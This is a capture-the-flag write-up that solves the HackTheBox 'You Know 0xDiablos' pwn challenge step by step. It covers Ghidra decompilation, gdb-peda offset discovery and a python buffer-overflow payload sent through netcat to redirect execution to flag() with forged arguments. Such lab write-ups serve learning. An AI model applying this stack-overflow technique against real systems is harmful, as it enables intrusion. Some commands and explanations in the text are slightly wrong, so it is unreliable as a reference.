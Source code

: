 ```yaml
---
title: HackTheBox - Pwn - You Know 0xDiablos
date: 2022-03-01 12:00:00 +/- 0000
categories: [HackTheBox,Pwn,BinaryExploit]
author: Connor Weeks-Pearson
tags: [pwn,0xdiablos]
image: /assets/img/Icons/pwn/pwn.png
---
```


I've never done a binary exploit here on HTB, the first exposure i had to them was at university yeara ago, but it's always something i've found interesting, so here goes! I will be using google for help because how else am i  going to learn!

Description: I missed my flag

***IP: 139.59.183.98:32124***
***Files: 1 - vuln***

---

## Analysis

First thing lets discover the type of file `vuln` is:

<pre>
┌──(kali㉿kali)-[~/Desktop]
└─$ file vuln 
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=ab7f19bb67c16ae453d4959fba4e6841d930a6dd, for GNU/Linux 3.2.0, not stripped
</pre>

`vuln` is an ELF 32-bit executable. Executing the file, the programme outputs some  text and then waits for a reply. It then redirects the input to the output.

<pre>
┌──(kali㉿kali)-[~/Desktop]
└─$ ./vuln
You know who are 0xDiablos: 
test 
test
</pre>

Now it's time to use ghidra!

---

## Ghidra

Having never used ghidra before this was very fun! After loading the file into Ghidra,  i had a look at the different functions. Of these, 3 stood out: vuln, flag and main. 

### vuln()

```c++
void vuln(void)

{
  char local_bc [180];
  
  gets(local_bc);
  puts(local_bc);
  return;
}
```

So what we can see here is there is an allocated 180 character array, that will hold the input using `gets` and then print it. After some googling, gets was replaced with fgets due to buffer overflow attacks.

### flag()

```c++
void flag(int param_1,int param_2)

{
  char local_50 [64];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 != (FILE *)0x0) {
    fgets(local_50,0x40,local_10);
    if ((param_1 == -0x21524111) && (param_2 == -0x3f212ff3)) {
      printf(local_50);
    }
    return;
  }
  puts("Hurry up and try in on server side.");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

This function is a bit different. A char array size of 64 is allocated as `local_50`, reads the file "flag.txt" and saves it to `local_50`. If function params are the same as `0x21524111` and `0x3f212ff3`, it will print the content of `local_50`.

The assembly code for 0x21524111 is `0xdeadbeef` and 0x3f212ff3 is `0xc0ded00d`.

---

## Exploiting
I will be using gdp-peda to exploit the `gets` function using a buffer overflow to jump into `flag()` to get the flag. Lets load the file, and start. We should hit an automatic breakpoint.

```c
gdb-peda start
[----------------------------------registers-----------------------------------]                                                                          
EAX: 0xf7fb1a28 --> 0xffffd1ec --> 0xffffd3c1 ("COLORFGBG=15;0")
EBX: 0x0 
ECX: 0xffffd140 --> 0x1 
EDX: 0xffffd174 --> 0x0 
ESI: 0xf7faf000 --> 0x1e9d6c 
EDI: 0xf7faf000 --> 0x1e9d6c 
EBP: 0xffffd128 --> 0x0 
ESP: 0xffffd120 --> 0xffffd140 --> 0x1 
EIP: 0x80492c0 (<main+15>:      sub    esp,0x10)
EFLAGS: 0x286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)                                                                           
[-------------------------------------code-------------------------------------]                                                                          
   0x80492bc <main+11>: mov    ebp,esp
   0x80492be <main+13>: push   ebx
   0x80492bf <main+14>: push   ecx
=> 0x80492c0 <main+15>: sub    esp,0x10
   0x80492c3 <main+18>: call   0x8049120 <__x86.get_pc_thunk.bx>
   0x80492c8 <main+23>: add    ebx,0x2d38
   0x80492ce <main+29>: mov    eax,DWORD PTR [ebx-0x4]
   0x80492d4 <main+35>: mov    eax,DWORD PTR [eax]
[------------------------------------stack-------------------------------------]                                                                          
0000| 0xffffd120 --> 0xffffd140 --> 0x1 
0004| 0xffffd124 --> 0x0 
0008| 0xffffd128 --> 0x0 
0012| 0xffffd12c --> 0xf7de3fd6 (<__libc_start_main+262>:       add    esp,0x10)
0016| 0xffffd130 --> 0xf7faf000 --> 0x1e9d6c 
0020| 0xffffd134 --> 0xf7faf000 --> 0x1e9d6c 
0024| 0xffffd138 --> 0x0 
0028| 0xffffd13c --> 0xf7de3fd6 (<__libc_start_main+262>:       add    esp,0x10)
[------------------------------------------------------------------------------]                                                                          
Legend: code, data, rodata, value

Temporary breakpoint 1, 0x080492c0 in main ()
```

Knowing there is a 180 character buffer, i created a file containing 200 characters and saved it as in.txt, which will be used to discover the EIP offset.

```c
db-peda pattern_create 200 in.txt
Writing pattern of 200 chars to filename "in.txt"
gdb-peda r < in.txt
Starting program: /home/kali/Desktop/vuln < in.txt
You know who are 0xDiablos: 
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]                                                                          
EAX: 0xc9 
EBX: 0x76414158 ('XAAv')
ECX: 0xffffffff 
EDX: 0xffffffff 
ESI: 0xf7faf000 --> 0x1e9d6c 
EDI: 0xf7faf000 --> 0x1e9d6c 
EBP: 0x41594141 ('AAYA')
ESP: 0xffffd110 ("ZAAxAAyA")
EIP: 0x41417741 ('AwAA')
...
```

We can see the EIP address is `0x41417741`, so lets find the offset, so that we can control the EIP.

```c
gdb-peda pattern_offset 0x41417741
1094809409 found at offset: 188
```

Now lets get the address of `flag()`

```c
gdb-peda disas flag
Dump of assembler code for function flag:
   0x080491e2 <+0>:     push   ebp
   0x080491e3 <+1>:     mov    ebp,esp
   0x080491e5 <+3>:     push   ebx
   0x080491e6 <+4>:     sub    esp,0x54
   0x080491e9 <+7>:     call   0x8049120 <__x86.get_pc_thunk.bx>
...
```

The address is 0x080491e2, which will translate to `\xe2\x91\x04\x08`

## Python Buffer Overflow

I will be using python to try and jump into the function `flag()`

```console
┌──(kali㉿kali)-[~/Desktop]
└─$ python -c "print('A'*188 + '\xe2\x91\x04\x08')" | ./vuln           139 ⨯
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��
Hurry up and try in on server side.
```



It successfully jumped into the code function. Now i know i need to pass the args into the function, and so some googling commenced. I read about `DUMB` addresses, in which the arguements called need to be supplied in reverse order. These parameters  are 0xdeadbeef and 0xc0ded00d, which when reversed turns into:

`\xef\xbe\xad\xde\x0d\xd0\xde\xc0`

This turns the entire python script into:

`python -c "print('A'*188 + '\xe2\x91\x04\x08' + 'AAAA\xef\xbe\xad\xde\x0d\xd0\xde\xc0')" | > exploit.txt`

## Deploying the Exploit
All that is needed now is to deploy the exploit to the docker server using netcat. This was done by the following:

```console
┌──(kali㉿kali)-[~/Desktop]
└─$ cat exploit.txt | nc 139.59.183.98 32124
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�DUMBﾭ�
HTB{flag}  
```
